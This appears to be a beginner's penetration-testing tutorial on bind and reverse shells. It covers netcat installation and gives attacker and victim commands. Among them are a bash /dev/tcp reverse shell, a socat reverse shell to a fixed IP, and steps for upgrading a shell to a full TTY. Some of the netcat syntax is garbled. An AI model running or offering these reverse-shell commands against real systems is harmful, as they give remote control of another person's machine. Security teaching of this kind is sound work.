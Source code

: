### Shells (Hack Responsibly)

## Introduction
Gaining a shell on your attack system is the ultimate goal , this way the impact of the vulnerability can be stressed.

According to wiki "a shell is a computer program which exposes an operating system's services to a human user or other programs.". now let's think of it this way , say you want total control of a system, you want to be able to switch it on , use it's camera , transfer its file and so on. the easiest way this could be done is to have physical access to the device. Another way, is to be able to control this system in question remotely (you can stay in your office in another country and access your files and computer usage from home).
A malicious attacker with unauthorized access with unauthorized access may also be able to do .if your system is compromised , just like you they dont have to be in thesame physical location to do this.
Now most of the time this compromise happens. the attacker access and controls your computer by typing commands through this shell, which in turn takes these commands typed and execute accordingly (most of the time, sometimes it asks if you are allowed to execute these commands).
An example of this is typing "shutdown now" on your unix system and watch your computer literaly shutdown, you dont have to press any button or click any beautiful GUI for this to happen, just a coomand lets it. i think i've explained this as best as i can .[check this wikipedia for more detailed explanation](https://en.wikipedia.org/wiki/Shell_(computing))



## Executing Shell

There are two ways to access a shell (bind shell and reverse shell)
1. you connect to the computer in question (bind)
2. the computer connects to you (reverse)

**The Bind shell** is rarely used in practice, due to firewalls that restricts imbound connection . dynamic IP addresses etc . In the case of a bind shell you make a connection to the user , that means the user has to be waiting (listening ) for connection and you connect to it. for this to work you will need the IP address of the system and the port you want to make connection to . note: once the IP address changes there is no way for you to access the system unless ofcourse you find its new IP

## Using Netcat for a bind shell 
First we need to install netcat.

### 🔌 Installing Netcat (`nc`) on Android, Windows, and Linux

Netcat (often abbreviated as `nc`) is a powerful network tool used for reading from and writing to network connections using TCP or UDP.

---

### 📱 Android

#### Option 1: Using Termux (Recommended)
1. Install [**Termux**](https://f-droid.org/en/packages/com.termux/) from F-Droid.
2. Run the following commands in Termux:
   ```bash
   pkg update
   pkg install netcat-openbsd
   
✅ Netcat will be installed as nc.

####  Option 2: Using BusyBox (Root Required)
1. Install BusyBox from Play Store or F-Droid.

2. Open a terminal emulator or ADB shell:

   ```bash
   busybox nc


### 🪟 Windows

#### Option 1: Using Nmap's Ncat
1. Download and install Nmap from https://nmap.org/download.html.

2. Use Ncat (a Netcat-compatible tool) from the command line:
   ```powershell
   ncat.exe -l -p 4444
   
### Option 2: Standalone Netcat Binary
1. Download from a trusted source like https://eternallybored.org/misc/netcat/
2. Extract and run from Command Prompt:
   ```cmd
   nc.exe -l -p 4444
   
###🐧 Linux
1. Debian/Ubuntu-based:
   ```bash
   sudo apt update
   sudo apt install netcat
2. Arch-based:
   ```bash
    sudo pacman -S gnu-netcat

3. RHEL/CentOS/Fedora:

   ```bash
   sudo dnf install nmap-ncat
#### ✅ Verify Installation
1. Run one of the following commands:
   ```bash
   nc --version
#### or
2.
   ```bash
    ncat --version

#### ℹ️ Note: Depending on your OS and install method, the command may be nc, netcat, or ncat.

    
    Feel free to open an issue or PR if you encounter platform-specific differences!


  ## Using Netcat for a bind shell
     Attacker's Host: nc <IP> <port> # makes connection to remote machine (looks for machine with that IP and has that port opened and makes a connection to it)
     Remote Machine: nc -nvlp <IP> # listens for connection (waits for someone to connect to its machine through that port)
  ## Using Netcat for a reverse shell
      Attacker's Host: nc -nlvp <PORT> # The attacker waits for the host to connect to its own machine , in this case its the one listening for connection)
      Remote Machine: nc <IP> <PORT> # Remote machine has the IP address of the attacker and makes connection to it ( well the attacker has a static IP that wont be chabging anytime soon)
      Or :bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
    
 PS: Only netcat is mentioned here , there are tons of tools to make reverse connection [check payloadallthethings for reverse shell with other tools ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
     

### Shell Codes
  Describe code executed by a target program due to a vulnerability exploit and used to open a remote shell 
  

### Upgrading Simple Shells to Fully Interactive TTYs
using python

  on victim:
     
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    
    (press on your keyboard) Ctrl+Z

    (press on your keyboard) Enter

   on your local host: stty raw -echo

   on your local host:
   
      fg (you will not see your keystrokes -- trust yourself and hit Enter)

      (press on your keyboard) Enter

      (press on your keyboard) Enter

   on the victim: 
   
      export TERM=xterm

  
    
 using socat:
 on host(attacker):
 
    socat file:`tty`,raw,echo=0 tcp-listen:4444
  
 on victim :
 
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
  
    
    
  
